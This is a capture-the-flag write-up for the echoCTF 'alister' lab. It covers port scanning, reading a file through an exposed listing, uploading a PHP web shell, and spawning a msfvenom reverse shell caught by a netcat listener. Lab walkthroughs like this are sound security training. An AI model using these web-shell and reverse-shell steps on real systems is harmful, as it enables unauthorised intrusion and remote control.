

# echoctf's alister writeup 

Alister combines a listing application with vulnerable configurations, offering an opportunity to explore common misconfigurations that could expose sensitive data or enable privilege escalation.

## Challenge Overview
>**Hint**: *Are you A-listed? Well, not to worry; this has nothing to do with that...*

>**Challenge Characteristics**:  
>- Intermediate, Rootable, Timed Challenge  
>- 5 Total Flags (1 Other, 2 System, 1 Environment, 1 Root Flag)  
>- Services: 2

---

## Initial Enumeration

### 1. **Fast Port Scanning with RustScan**  
To begin the enumeration process, I used [RustScan](https://github.com/RustScan/RustScan/wiki/Installation-Guide) to quickly identify open ports. RustScan is great for fast initial scans in time-limited challenges.

```bash
rustscan -a 10.0.160.56 --ulimit 5000 -b 4
```


From the RustScan results, **two services** were identified on **ports 1337** and **5244**, matching the challenge description.

### 2. **Detailed Service Scan with Nmap**  
Next, I ran a more detailed scan using `nmap` to gather information about the services running on these ports:

```bash
nmap -p 1337,5244 -Pn 10.0.160.56
```


Since these ports are designated as `/tcp`, they likely host web-based services, so I opened them in a browser to investigate further.

### 3. **Exploring Services on Ports 5244 and 1337**

- **Port 5244**:  
  Port 5244 hosts a directory management system. On the landing page, there's a `public` folder. After navigating to this folder, I found a file named `ETSCTF.html`.

  - **Landing Page on Port 5244**:  
    

  - **Public Folder Contents on Port 5244**:  
    

- **Port 1337**:  
  Port 1337 displays what appears to be an `ls -a` style listing of the `public` folder on port 5244 in array format:

  

---

### **Teaser**

> The setup suggests that port 5244 hosts a publicly accessible file management system listing files in a directory. Port 1337, on the other hand, exposes the contents of the `public` folder on port 5244, providing a file listing without authentication. This implies a **directory traversal vulnerability** or a similar misconfiguration, which we can exploit to access files like `ETSCTF.html` directly from port 1337.

---

### 4. **First Flag Discovery**  
While exploring port 1337, I initially couldn't find the `ETSCTF.html` file. However, when I tried accessing `1337/public/ETSCTF.html`, the file was accessible, and we obtained the **first flag**!

  

This confirms a misconfiguration in file access and suggests that the `public` folder on port 1337 could be a goldmine for further findings. We now have our first flag, and the challenge is starting to take shape.

---

### 5. **Web Shell Upload and Access**

Based on the vulnerability discovered, we can upload a web shell for further exploration. I used [wwwolf-php-webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell). This web shell is easy to use and provides a variety of actions that can help us explore the system.

#### Uploading the Web Shell

We navigated to port 5244 and used its file management system to upload the `wwwolf.php` web shell to the target system. After uploading, we were able to access it in the same way we accessed `ETSCTF.html` earlier.

    
  

**Path to the Web Shell**:

- By appending the web shell's location to the path exposed by port 1337, we could access it.  
- The path to our uploaded web shell was:  
  `http://10.0.160.56:1337/public/wwwolf.php`  

  

We could now access the web shell through the browser and use it to execute commands on the system. To test the functionality, I executed the `uname -a` command to verify the system details.

  

---

### 6. **Establishing a Reverse Shell**

To escalate our access, we proceed to create and upload a reverse shell payload that will allow us to establish an interactive shell on the target system.

#### Step 1: Generate the Reverse Shell Payload  
We used **msfvenom** to generate a reverse shell payload. This payload connects back to our machine on port 9999. Here’s the command to create the payload:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=9999 -f elf -o rshell.elf
```

  

This generates a Linux-compatible ELF file (`rshell.elf`), as confirmed by the output of the `uname -a` command.

#### Step 2: Set Up a Listener on Your Local Machine  
Before uploading and executing the payload, set up a **Netcat listener** on your local machine to catch the incoming reverse shell connection. In your terminal, run:

```bash
nc -lvnp 9999
```

  

Make sure the listener is running and waiting for the connection before proceeding to the next step.

#### Step 3: Upload the Payload to the Target System  
Using the web shell's `Browse` feature, we uploaded the generated payload (`rshell.elf`) to the target system, specifically to the `/tmp/` directory.

  

#### Step 4: Make the Payload Executable  
Once the payload is uploaded, we need to make it executable by changing its permissions. We can use the following command:

```bash
chmod +x rshell.elf
```

#### Step 5: Execute the Payload  
Now that the payload is executable, we run it to trigger the reverse shell:

```bash
./rshell.elf
```

#### Step 6: Capture the Reverse Shell  
After executing the payload, it will connect back to our listener on port 9999. If successful, you will see the connection on your **Netcat listener**, granting you a shell with the privileges of the user who executed the payload.
